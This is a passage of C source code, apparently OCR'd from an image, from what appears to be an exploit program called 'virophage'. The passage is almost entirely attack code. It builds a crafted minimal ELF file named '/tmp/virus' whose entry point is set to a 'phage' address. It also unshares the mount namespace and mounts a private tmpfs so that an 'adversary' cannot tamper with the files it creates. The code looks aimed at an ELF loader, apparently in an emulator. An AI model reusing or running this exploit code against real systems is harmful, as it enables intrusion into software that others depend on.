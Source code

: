 ```c
        unsigned char c = (result >> shift) & 0xf;

        c += c < 10 ? '0' : 'A' - 10;
        _vp_sys_write(STDOUT_FILENO, &c, 1);
    }
    WRITE_STRING_LITERAL(STDOUT_FILENO, "\n");

    return result;
}
static void virophage_write_virus(const char *path) {
    /* load_elf_phdrs wants at least one segment, else it errors */
    target_ulong phage = virophage_request_phage();

    struct {
        Elf32_Ehdr ehdr;
        Elf32_Phdr phdr;
    } data = {
        .ehdr = {
            .e_ident = {
                ELFMAG0, ELFMAG1, ELFMAG2, ELFMAG3,
                ELFCLASS32, ELFDATA2LSB, EV_CURRENT,
                ELFOSABI_SYSV
            },
            .e_type = ET_EXEC,
            .e_machine = EM_386,
            .e_version = EV_CURRENT,
            .e_entry = phage,
            .e_ehsize = sizeof(Elf32_Ehdr),
            .e_phentsize = sizeof(Elf32_Phdr),
            .e_phnum = 1,
        },
        .phdr = {
            .p_type = PT_NULL,
        },
    };
    int fd, r;

    data.ehdr.e_phoff = (void *)&data.phdr - (void *)&data;

    fd = _vp_sys_open(path, O_WRONLY | O_CREAT | O_EXCL, 0500);
    if (fd < 0)
        _vp_error(1, _vp_errno, "open(virus)");

    r = _vp_sys_write(fd, &data, sizeof(data));
    if (r < 0)
        _vp_error(1, _vp_errno, "write(virus)");
    if (r != sizeof(data))
        _vp_error(1, 0, "write(virus): bad size written");

    _vp_sys_close(fd);
}
static int virophage_main(int argc, char **argv, char **envp) {
    /* Do stuff in a private tmpfs so there's no way for adversary to
       mess with the files we create */
    if (_vp_sys_unshare(CLONE_NEWNS) < 0)
        _vp_error(1, _vp_errno, "unshare(CLONE_NEWNS)");
    if (_vp_sys_mount("none", "/", NULL, MS_REC | MS_PRIVATE, NULL) < 0)
        _vp_error(1, _vp_errno, "mount(/, MS_REC | MS_PRIVATE)");
    if (_vp_sys_mount("tmpfs", "/tmp", "tmpfs", MS_NOSUID | MS_NODEV, NULL))
        _vp_error(1, _vp_errno, "mount(/tmp)");

    virophage_write_virus("/tmp/virus");

```